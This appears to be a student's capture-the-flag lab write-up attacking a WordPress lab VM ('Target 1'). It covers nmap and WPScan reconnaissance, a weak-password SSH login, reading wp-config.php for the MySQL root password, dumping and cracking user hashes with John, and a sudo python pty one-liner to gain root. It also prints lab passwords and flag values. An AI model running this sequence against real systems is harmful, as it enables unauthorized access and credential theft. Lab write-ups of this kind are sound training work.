# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
`$ netdiscover -r 192.168.1.255/16`  
```


Nmap scan results for each machine reveal the below services and OS details:

```bash
`$ nmap -sV 192.168.1.110`
```


Name of VM: `Target 1`  
Operating System: `Linux`  
Purpose: `Defensive Blue Team`  
IP Address: `192.168.1.110`


```bash
`$ nmap -sS -sV -O 192.168.1.0/24`
```





This scan identifies the services below as potential points of entry:
- `Target 1` (192.168.1.110)
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4  
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))  
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)  
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  

The following vulnerabilities were identified on **`Target 1`**:
- `Target 1` (192.168.1.110)
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Critical Vulnerabilities 

The following vulnerabilities were identified on `Target 1`.  

- Network Mapping and User Enumeration (WordPress site)
  - Nmap was used to discover open ports.  
    - Able to discover open ports and tailor their attacks accordingly.  
- Weak User Password  
  - A user had a weak password and the attackers were able to discover it by guessing.  
    - Able to correctly guess a user's password and SSH into the web server.  
- Unsalted User Password Hash (WordPress database)  
  - Wpscan was utilized by attackers in order to gain username information.  
    - The username info was used by the attackers to help gain access to the web server.  
- MySQL Database Access  
  - The attackers were able to discover a file containing login information for the MySQL database.  
    - Able to use the login information to gain access to the MySQL database.  
- MySQL Data Exfiltration  
  - By browsing through the various tables in the MySQL database the attackers were able to discover password hashes of all the users.  
    - The attackers were able to exfiltrate the password hashes and crack them with John the Ripper.  
- Misconfiguration of User Privileges Escalation  
  - The attackers noticed that Steven had sudo privileges for python.  
    - Able to utilize Steven’s python privileges in order to escalate to root.  


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.  
- Command used: wpscan --url http://192.168.1.110/wordpress -eu  

```bash
root@Kali:~# wpscan --url http://192.168.1.110/wordpress -eu
```  



- **Exploit Used**
- `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- 

 - ssh into **`Michael’s`** account and look in the/var/www files
  - **Command:** `ssh michael@192.168.1.110`  
  - The username and password **`michael`** were identical, allowing for the ssh connection.  
    
  
  - **Command:** `cd /var/www`  
  - **Command:** `ls`  
  - **Command:** `grep -RE flag html`  
  - **`flag1`** was part of the long printout.
  

**Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  


- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  
- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
 
  


  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
  
      - **Command:** `john --show wp_hashes.txt`  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:** `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
)

### Submitted By - Aziz Somani